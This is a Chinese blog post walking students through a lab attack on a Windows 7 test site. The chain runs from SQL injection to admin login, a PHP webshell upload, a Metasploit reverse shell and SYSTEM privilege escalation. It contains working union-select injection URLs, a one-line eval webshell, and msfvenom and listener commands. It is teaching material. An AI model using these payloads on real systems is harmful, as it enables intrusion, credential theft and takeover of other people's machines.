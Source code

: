 ```yaml
---
title: 模拟网站攻击到提权的全部过程
tags: 渗透
top_img: >-
  https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%A8%A1%E6%8B%9F%E7%BD%91%E7%AB%99%E6%94%BB%E5%87%BB%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E8%BF%87%E7%A8%8B/222.jpg
cover: >-
  https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%A8%A1%E6%8B%9F%E7%BD%91%E7%AB%99%E6%94%BB%E5%87%BB%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E8%BF%87%E7%A8%8B/222.jpg
abbrlink: 46463
date: 2020-12-18 23:19:44
---
```


# 前言

今天去给新一届的学生演示一次网站拿webshell到系统提权的过程，但不幸的是中间翻车了，老年人紧张得忘记了msf监听木马的指令，然后哆哆嗦嗦的在大家眼下，打开了笔记查看一下2333......所以更新一下博客，给自己一个教训QWQ。

# 准备工作

靶机（被攻击方）：win7系统
入侵者（攻击方）：win10系统、kali系统

首先启动win7系统，搭建一个常见的校园网站，然后映射到局域网，使得我们能正常访问
![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%A8%A1%E6%8B%9F%E7%BD%91%E7%AB%99%E6%94%BB%E5%87%BB%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E8%BF%87%E7%A8%8B/EUAM0%5DFV1UHQ43O%246FPAM11.png)

# 从网站拿到webshell

## sql注入漏洞

把整个网站浏览完一遍后，我们发现这里的url为?id=10结尾，我们猜测可能是一个sql注入点
![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%A8%A1%E6%8B%9F%E7%BD%91%E7%AB%99%E6%94%BB%E5%87%BB%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E8%BF%87%E7%A8%8B/%24%28BBF9%7B%40%60VK%5DJ5YB59PLDC8.png)
首先我们在id=10后面加上一个单引号'进行判断
![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%A8%A1%E6%8B%9F%E7%BD%91%E7%AB%99%E6%94%BB%E5%87%BB%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E8%BF%87%E7%A8%8B/%7DR0SQC6%40%25D0%24UCQD%28%7B_JBJB.png)
这个时候我们发现回显的数据不正常，于是我们再加一个注释符号
![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%A8%A1%E6%8B%9F%E7%BD%91%E7%AB%99%E6%94%BB%E5%87%BB%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E8%BF%87%E7%A8%8B/EY%24%60%7BQF%5BOL_7B%7D1490~0NFR.png)
发现数据这个时候回显的时候是正常的，到这一步我们已经可以确定这里存在一个sql注入漏洞

> 原理我们可以简单解释一下
> 在网站中，我们一般使用数据库存储网站数据，网站和数据库是存在一个交互性。网站所呈现的内容是由代码中写入的sql语句调用数据库中的内容进行一个呈现，例如我们刚刚看到的文字。
> 而sql注入漏洞一般是由于程序员书写的sql语句不规范所导致的安全事件。

例如网站源码中使用如下的sql语句进行查询
![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%A8%A1%E6%8B%9F%E7%BD%91%E7%AB%99%E6%94%BB%E5%87%BB%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E8%BF%87%E7%A8%8B/1T2AQDR%295S%5B5%5D5%28FBQV%29EU3.png)
给语句结尾的where查询条件加上一个单引号'
![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%A8%A1%E6%8B%9F%E7%BD%91%E7%AB%99%E6%94%BB%E5%87%BB%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E8%BF%87%E7%A8%8B/9YFRLV58FSE9%605E%405%7B3F_%25W.png)
很显然，我们传入的单引号和前面的单引号闭合，后面只有一个无法成对的单引号，然后报了语法错误。这个时候我们再加上`--+`注释符号注释掉后面的单引号
![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%A8%A1%E6%8B%9F%E7%BD%91%E7%AB%99%E6%94%BB%E5%87%BB%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E8%BF%87%E7%A8%8B/GSUAC7X6IS9%40_SDTJL%5DO4%60J.png)
这个时候查询的数据就会正确回显出来。

原理简单解释了一下之后，我们回到刚刚的网站。
这个时候我们发现存在sql注入漏洞之后，我们就开始进行查询对方网站数据库的数据，找到一些敏感信息，例如管理员的账号密码等等

首先，我们使用order by语句快速猜解出表中的列数
![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%A8%A1%E6%8B%9F%E7%BD%91%E7%AB%99%E6%94%BB%E5%87%BB%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E8%BF%87%E7%A8%8B/CZATPZQ%249%293I4%5DQCRB%7BR9G3.png)
发现10列的时候报错，说明不足10列，我们继续缩小范围
![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%A8%A1%E6%8B%9F%E7%BD%91%E7%AB%99%E6%94%BB%E5%87%BB%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E8%BF%87%E7%A8%8B/JT6AZ1LLFZHL%4039EJE8OQ3E.png)
再查询第8列的时候，发现数据回显正确，说明对方表中含有列数8
我们使用union select 自定义查询测试一下，注意我们这里前面的id=10，要写成id=-10，把这里的查询置空
![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%A8%A1%E6%8B%9F%E7%BD%91%E7%AB%99%E6%94%BB%E5%87%BB%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E8%BF%87%E7%A8%8B/W8%25J%40U4%7D%5BD3HFH%7DNFML%25L_7.png)
发现会分别回显第三列、第五列和第七列。接下来我们就可以在三、五、七处做做文章

查询数据库名字：

```sql
http://192.168.1.167/yxlink/tuku/images.php?id=-10' union select 1,2,database(),4,5,6,7,8--+
```

![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%A8%A1%E6%8B%9F%E7%BD%91%E7%AB%99%E6%94%BB%E5%87%BB%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E8%BF%87%E7%A8%8B/EXY%40U7T%25JGYM6%25%7BD0G%29FZF0.png)
得到数据库名字：qzn_zuiai

查询数据库中的表名：

```sql
http://192.168.1.167/yxlink/tuku/images.php?id=-10' union select 1,2,group_concat(table_name),4,5,6,7,8 from information_schema.tables where table_schema="qzn_zuiai"--+
```

![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%A8%A1%E6%8B%9F%E7%BD%91%E7%AB%99%E6%94%BB%E5%87%BB%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E8%BF%87%E7%A8%8B/64LOR%40WXDA7PCL2%5B8%40OWSJG.png)
得到一共se2admin,se2fl,se2hd,se2nr,se2tufl,se2tunr,se2wz,se2zf,sj3sk九张表
通过表名，我们猜测se2admin可能是存储管理员账号和密码的表，所以我们先查询这张表中的数据

查询表se2admin中的字段：

```sql
http://192.168.1.167/yxlink/tuku/images.php?id=-10' union select 1,2,group_concat(column_name),4,5,6,7,8 from information_schema.columns where table_name="se2admin"--+
```

![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%A8%A1%E6%8B%9F%E7%BD%91%E7%AB%99%E6%94%BB%E5%87%BB%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E8%BF%87%E7%A8%8B/2%24%60DI0KVJHJM5MK_S%29SZ~%40U.png)
得到表中的字段值有id，name，pass等，接下来我们查询name和pass的字段值

查询字段值：

```sql
http://192.168.1.167/yxlink/tuku/images.php?id=-10' union select 1,2,name,4,pass,6,7,8 from se2admin--+
```

![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%A8%A1%E6%8B%9F%E7%BD%91%E7%AB%99%E6%94%BB%E5%87%BB%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E8%BF%87%E7%A8%8B/DNM1KIWQ3~%29TL03T%408%5D9G%60X.png)
我们得到管理员账号：admin，管理员账号密码：7fef6171469e80d32c0559f88b377245
很显然密码值是被加密的md5值，所以我们去网上找md5网站进行撞库查询
![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%A8%A1%E6%8B%9F%E7%BD%91%E7%AB%99%E6%94%BB%E5%87%BB%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E8%BF%87%E7%A8%8B/N%29%5DIF%40X%25H%29789%7B~MNS6K0%5BY.png)
得到管理员密码为：admin888
接下来我们需要查找这个网站的后台地址，我们使用御剑进行一个扫描
![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%A8%A1%E6%8B%9F%E7%BD%91%E7%AB%99%E6%94%BB%E5%87%BB%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E8%BF%87%E7%A8%8B/OV8QOF%25%7D6CVVLGW_5TQ1%5DTN.png)
御剑爆出了很多敏感地址，我们找到一个admin的目录，可能是后台地址，我们去访问一下
![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%A8%A1%E6%8B%9F%E7%BD%91%E7%AB%99%E6%94%BB%E5%87%BB%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E8%BF%87%E7%A8%8B/HCYIQ8PD4F%7BU5KVUEVY%7D9WG.png)
输入我们刚刚得到的管理员账号和密码admin:admin888
![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%A8%A1%E6%8B%9F%E7%BD%91%E7%AB%99%E6%94%BB%E5%87%BB%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E8%BF%87%E7%A8%8B/P%40R%7BB8STI811URPWC%25%40GQ81.png)
这个时候，我们成功进入对方网站后台。

## 文件上传漏洞

接下来我们再这里找到一个文件上传点
![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%A8%A1%E6%8B%9F%E7%BD%91%E7%AB%99%E6%94%BB%E5%87%BB%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E8%BF%87%E7%A8%8B/A%28GNMR3D%29O%60%29AH3MKVRQ20U.png)
我们写一个简单的一句话木马

```php
<?php @eval($_POST['pass']);?>
```

![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%A8%A1%E6%8B%9F%E7%BD%91%E7%AB%99%E6%94%BB%E5%87%BB%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E8%BF%87%E7%A8%8B/H6JI8CKP%256M_8%5BFOZ1_VKUS.png)
考虑到这里可能会对我们上传的文件进行一个后缀限制，例如只能上传jpg或者png图片格式文件等，所以我们把muma.txt改成muma.jpg格式
![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%A8%A1%E6%8B%9F%E7%BD%91%E7%AB%99%E6%94%BB%E5%87%BB%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E8%BF%87%E7%A8%8B/P0S3ZG_4XI%29%7BGX14%25RQRYUA.png)
我们开启burpsuite，然后点提交，拦截到我们发送的数据包
![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%A8%A1%E6%8B%9F%E7%BD%91%E7%AB%99%E6%94%BB%E5%87%BB%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E8%BF%87%E7%A8%8B/FK_UC_0%25I%40Q~16XJN7%5B%601CQ.png)
我们把muma.jpg改回php文件类型：muma.php
![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%A8%A1%E6%8B%9F%E7%BD%91%E7%AB%99%E6%94%BB%E5%87%BB%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E8%BF%87%E7%A8%8B/%24%7BRYDZJ0T4EZ%29FABTKYE5%24J.png)
然后发送数据包
![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%A8%A1%E6%8B%9F%E7%BD%91%E7%AB%99%E6%94%BB%E5%87%BB%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E8%BF%87%E7%A8%8B/CC8K%256%7DFP%7DHA%5B2ZUFJP%5DDGE.png)
ok，已经上传成功，我们去找找我们上传后的路径
![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%A8%A1%E6%8B%9F%E7%BD%91%E7%AB%99%E6%94%BB%E5%87%BB%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E8%BF%87%E7%A8%8B/V8TW%7BRFNJ%40VVQ6ESZK60QYG.png)
得到我们的上传完整路径为：`http://192.168.1.167/yxlink/img/img_3699336993.php`
我们使用蚁剑进行连接我们上传的木马
![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%A8%A1%E6%8B%9F%E7%BD%91%E7%AB%99%E6%94%BB%E5%87%BB%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E8%BF%87%E7%A8%8B/2_%5DLX62PYEDGHMP%6094SYA%29P.png)
成功连接，进入到对方服务器
![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%A8%A1%E6%8B%9F%E7%BD%91%E7%AB%99%E6%94%BB%E5%87%BB%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E8%BF%87%E7%A8%8B/QN_%60%5BB%5BTHV18Z1QFL3L%5B9EP.png)
到此，已成功拿到webshell

# 反弹shell连接

接下来我们利用kali的msf制作一个exe类型的反弹型木马

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=kali的ip LPORT=端口 -f 类型 -o 文件名
```

![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%A8%A1%E6%8B%9F%E7%BD%91%E7%AB%99%E6%94%BB%E5%87%BB%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E8%BF%87%E7%A8%8B/YDU1EFKR~H3D%28U6OD6X%7DZ%25U.png)
把做好的木马，通过我们蚁剑刚刚连接的webshell进行上传
![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%A8%A1%E6%8B%9F%E7%BD%91%E7%AB%99%E6%94%BB%E5%87%BB%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E8%BF%87%E7%A8%8B/KUOL~L7CL4S%40%60GJXYIUU%295R.png)
![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%A8%A1%E6%8B%9F%E7%BD%91%E7%AB%99%E6%94%BB%E5%87%BB%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E8%BF%87%E7%A8%8B/L%25%40S3%5DE_A%40CF3_%251DUDNP%5BS.png)
上传成功后，我们在kali启动msf
![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%A8%A1%E6%8B%9F%E7%BD%91%E7%AB%99%E6%94%BB%E5%87%BB%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E8%BF%87%E7%A8%8B/B%7B%40%40%607%604Y~JIBZFXIR4VC7O.png)

**执行监听**

```shell
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.1.131
set lport 4444
exploit
```

![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%A8%A1%E6%8B%9F%E7%BD%91%E7%AB%99%E6%94%BB%E5%87%BB%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E8%BF%87%E7%A8%8B/9H%28VN~3CT57WQ1%7DL1MUQ_%7DB.png)
**执行木马**

msf开启监听之后，我们去蚁剑webshell执行我们上传的木马
![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%A8%A1%E6%8B%9F%E7%BD%91%E7%AB%99%E6%94%BB%E5%87%BB%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E8%BF%87%E7%A8%8B/%5B%29C3QY%60V%7BV%282%29TRB%40VM7SBH.png)
执行之后，回到kali，我们可以看到msf目标正在回连，创建Meterpreter会话成功
![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%A8%A1%E6%8B%9F%E7%BD%91%E7%AB%99%E6%94%BB%E5%87%BB%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E8%BF%87%E7%A8%8B/SIL%25NM%29X3G%293%5DZ4%25S1F%28BCF.png)

**提权**

首先查看一下我们的用户权限
![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%A8%A1%E6%8B%9F%E7%BD%91%E7%AB%99%E6%94%BB%E5%87%BB%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E8%BF%87%E7%A8%8B/%60H_A1%29K4%5DH3FWZ8FHFQDSMP.png)
发现是普通用户权限，之前我们已经在webshell观察到对方是win7系统，所以我们采用的是windows的载荷攻击
我们尝试使用getsystem进行提权试试
![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%A8%A1%E6%8B%9F%E7%BD%91%E7%AB%99%E6%94%BB%E5%87%BB%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E8%BF%87%E7%A8%8B/6%24I2J%24V91AJ%5D8RJDYHFLMNS.png)
发现直接提权成功，现在我们拥有windows最高权限system
接下来我们打印一下系统信息，并且拍照对方电脑现在状态
![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%A8%A1%E6%8B%9F%E7%BD%91%E7%AB%99%E6%94%BB%E5%87%BB%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E8%BF%87%E7%A8%8B/J8EE_%249FD%258GQ0%28%257%60%60BX14.png)
![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/%E6%A8%A1%E6%8B%9F%E7%BD%91%E7%AB%99%E6%94%BB%E5%87%BB%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E8%BF%87%E7%A8%8B/CW%7BXP%7D_1%25%5BI6P8M%40M23J4SQ.png)
ok，成功。

# 结语

在拿到system权限之后，我们可以干很多很多的事......例如给对方种下后门，拿来当肉鸡等等。。。
这告诉我们开发网站必须注重安全，否则带来的后果是无穷大的。
emmm......这波有点难受。

**注：本博客仅供技术研究，若将其信息做其他用途，由用户承担全部法律及连带责任，本博客不承担任何法律及连带责任，请遵守中华人民共和国安全法**